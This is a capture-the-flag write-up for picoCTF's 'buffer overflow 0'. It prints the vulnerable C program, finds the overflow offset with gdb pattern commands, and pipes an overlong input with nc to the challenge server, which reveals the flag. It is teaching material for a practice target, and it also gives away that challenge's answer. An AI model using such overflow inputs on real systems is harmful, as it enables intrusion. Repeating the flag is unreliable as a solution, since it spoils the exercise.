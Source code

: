 # Writeup: buffer overflow 0

## Overview

- This challenge involves a simple buffer overflow to cause segmentation fault.

## Analysis

### Code Overview

- The `main` function prompts user to input a string using `gets` function:

```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

- The `vuln` function copies the input into another buffer:

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

- The `sigsegv_handler` function is called when a segmenation fault occurs. It is defined to output flag:

- Segmentation fault occur when the program trying to access invalid memory address.

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

### Vulnerabilities

- The `gets` function does not check bounds, leading to a buffer overflow vulnerability.

## Exploitation Strategy

- Perform a buffer overflow to cause segmentation fault.

## Exploitation Steps

1. Determine the offset of the buffer.

- Open `gdb`:

```terminal
$ gdb vuln
```

- Create sequence of strings using `pattern create command`:

```terminal
gef➤  pattern create 150
[+] Generating a pattern of 150 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```

- Run the program and input the generated pattern:

```terminal
gef➤  run
Input: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaa
```

- Inspect the registers content and notice that the value of `eip` is overflowed:

```terminal
───────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffce60  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$ebx   : 0x61616166 ("faaa"?)
$ecx   : 0xffffcf00  →  "caabdaa"
$edx   : 0xffffcecc  →  "caabdaa"
$esp   : 0xffffce80  →  "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
$ebp   : 0x61616167 ("gaaa"?)
$esi   : 0x565564a0  →  <__libc_csu_init+0> endbr32 
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x61616168 ("haaa"?)
```

- Determine the offset using `pattern offset command`:

```terminal
gef➤  pattern offset haaa
[+] Searching for '61616168'/'68616161' with period=4
[+] Found at offset 25 (little-endian search) likely
```

- The offset is 25 bytes

- Input 26 bytes in the remote server to get the flag

```terminal
$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAA' | nc saturn.picoctf.net 63108
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Conclusion

This challenge demonstrates how to perform a basic buffer overflow to trigger a segmentation fault and retrieve a flag.

